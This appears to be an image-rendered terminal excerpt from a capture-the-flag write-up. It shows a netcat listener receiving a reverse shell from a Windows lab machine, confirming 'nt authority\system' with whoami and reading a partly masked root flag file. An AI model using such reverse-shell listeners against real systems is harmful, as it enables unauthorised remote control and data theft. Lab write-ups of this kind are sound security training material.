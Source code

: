 ```batch
$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.180] 50072
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
c8255***************************
```
